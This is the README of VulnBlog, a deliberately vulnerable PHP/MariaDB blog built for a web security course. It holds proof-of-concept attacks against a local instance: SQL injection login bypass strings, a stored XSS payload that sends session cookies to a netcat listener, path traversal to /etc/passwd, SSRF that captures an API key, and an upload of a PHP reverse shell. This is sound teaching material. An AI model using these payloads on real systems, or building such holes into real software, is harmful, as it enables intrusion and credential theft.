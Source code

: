 # VulnBlog

A vulnerable PHP/MariaDB web application created for the BIF-5/WEBSEC course.

## Setup
**Note:** `setup.sh` enables apache2 and mariadb at startup.

```
git clone https://github.com/FelixSchuster/VulnBlog
sudo chmod +x setup.sh
sudo ./setup.sh
```

## Default Credentials
Database:
- `vulnuser`:`P@ssword`

Webpage:
- `admin`:`admin`
- `felix`:`P@ssword`

Passwords are currently saved in plain text, might change this later on.. or not, it's just another vulnerability to test for.

## Vulnerabilities / Proof of Concept

### A01:2021 – Broken Access Control
#### Example 1
In the navbar select 'Previously created Blogposts' and edit any blogpost.
You can edit blogposts of other users by editing the id parameter in the url.
```
http://127.0.0.1/vulnblog/index.php?page=edit_blogpost.php&id=<EDIT THIS>
```

### A03:2021 – Injection
#### Example 1: SQL Injection
The login form is injectable:
```
http://127.0.0.1/vulnblog/index.php?page=login.php
```

Valid SQL injection queries are:
```
' or 1=1 #
admin' #
```

#### Example 2: Stored Cross-Site-Scripting
Create a blogpost including the following payload:
```
<script>alert("XSS");</script>
```

Try hijacking a php session cookie using the payload:
```
<script>fetch('http://127.0.0.1:1234/'+document.cookie);</script>
```

Additionally start a netcat listener using:
```
nc -lvnkp 1234
```

### A04:2013 - Insecure Direct Object References
#### Example 1
Try accessing:
```
http://127.0.0.1/vulnblog/index.php?page=../../../../../../../../etc/passwd
```

### 2021 - Server-Side Request Forgery (SSRF)
Clicking on Dogs sends a GET Request with an imaginery API Key to the dog ceo API.
The URL looks like that: http://localhost/vulnblog/index.php?page=dogs.php&url=https://dog.ceo/api/breeds/image/random

We can change the url to our own webserver: &url=http://localhost:8888

Start a listener, resend the request and retrieve the secret:
```bash
alex@kali:~/VulnBlog$ nc -lvnp 8888                                  
listening on [any] 8888 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60404
GET / HTTP/1.1
Host: localhost:8888
Authorization: Basic VG9wU2VjcmV0QXBpS2V5ITo=
Accept: */*

alex@kali:~/VulnBlog$ echo "VG9wU2VjcmV0QXBpS2V5ITo=" | base64 -d    
TopSecretApiKey!:
```

### A03:2017 – Sensitive Data Exposure
#### Example 1:
Vulnblog offers the capability to upload images in blog entries. The access is not protected, this allows users to navigate to the directory and get access to the uploads.
```
http://localhost/vulnblog/uploads/
```
### A03:2007 - Malicious File Execution
#### Example 1:
Unrestricted file uploads:

You can upload a PHP script to execute malicious code.
Try to upload the php-reverse-shell script to gain access to the server.
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
The file will be executed.

After that you need to get access to the server in order to use the reverse shell.
Use Netcat to listen on port 1234.
```
nc -lvnp 1234
```
Now you can test if you are connected to the web server.
```
whoami
```

## Database
For further information see `./database/db.sql`.

![Database Diagram](./database/db.drawio.png)
